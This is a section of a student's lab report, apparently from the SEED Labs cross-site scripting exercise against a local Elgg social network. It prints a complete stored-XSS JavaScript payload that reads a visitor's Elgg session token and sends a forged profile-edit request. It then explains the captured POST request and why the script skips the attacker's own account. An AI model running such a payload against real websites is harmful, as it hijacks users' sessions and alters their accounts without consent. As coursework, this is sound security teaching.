\section{Task 5: Modifying the Victim's Profile}
%
\begin{lstlisting}[caption=XSS script for editing a visitor's profile.,
    label={lst:xss_edit_profile}]
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var description = "&description=Hacked by Samy!!!";
var content = `${ts}${token}${guid}${userName}${description}`; //FILL IN
var samyGuid = "59"; //FILL IN
var sendurl = "http://www.seed-server.com/action/profile/edit"; //FILL IN
if(elgg.session.user.guid!=samyGuid) // Line 1
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
\end{lstlisting}

\begin{figure}[h]
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/HTTP_POST_edit_profile.png}
    \caption{HTTP POST request for editing a Boby's profile.}
    \label{fig:http_post_edit_profile}
\end{figure}

Firstly, we wanted to know the pattern of the HTTP POST request for editing someone's profile.
We logged in as Boby and tried to edit profile. After pressing the \emph{Save} button, we
captured the HTTP POST request as \url{http://www.seed-server.com/action/profile/edit} and its
body contains many parameters such as \emph{\_\_elgg\_ts, \_\_elgg\_token, name, guid, description,
\dots} (see \autoref{fig:http_post_edit_profile}).

Some variables in the XSS script (see \autoref{lst:xss_edit_profile}) need to be clarified.
\emph{samyGuid} here is the guid of Samy which is 59 as mentioned in Task 4. \emph{sendurl}
is the URL \url{http://www.seed-server.com/action/profile/edit}. \emph{contents} here is
the list of delivered parameters chained by `\&'. As \emph{ts, token, guid, and userName} were
already defined, we just need to define \emph{description} parameter which corresponds to
the \emph{About me} field. In this task, we defined the value of \emph{description} is
`Hacked by Samy'; therefore, when a user visited Samy's page, his/her \emph{About me} would
change to `Hacked by Samy'.

When the script was ready, we added to \emph{About me} field of Samy's profile with Samy
authentication. Then we logged out and logged in with Boby authentication. When we visited
Samy's page, Boby's \emph{About me} was modified and a HTTP POST request for editing profile
was captured (see \autoref{fig:xss_edit_profile}).

\begin{figure}[h]
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/XSS_edit_profile.png}
    \caption{XSS script changes the visitor's profile.}
    \label{fig:xss_edit_profile}
\end{figure}

\textbf{Question 3: Why do we need Line 1? Remove this line, and repeat your attack.
Report and explain your observation.}

The Line 1 is to make the malicious HTTP POST request is sent only when someone else visits
Samy's page but not Samy. In other words, when Samy visit or send a HTTP GET request to his
page, the attack won't be conducted. \emph{elgg.session.user.guid} here is the guid of the
current user. \emph{elgg.session.user.guid != samyGuid} means that the condition is true if the
current guid is not same as Samy's guid. If this line is removed, Samy's \emph{About me}
will be modified even when Samy visits his page (see \autoref{fig:xss_samy_edit_profile}).

\begin{figure}
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/XSS_samy_edit_profile.png}
    \caption{XSS script changes Samy's profile as well.}
    \label{fig:xss_samy_edit_profile}
\end{figure}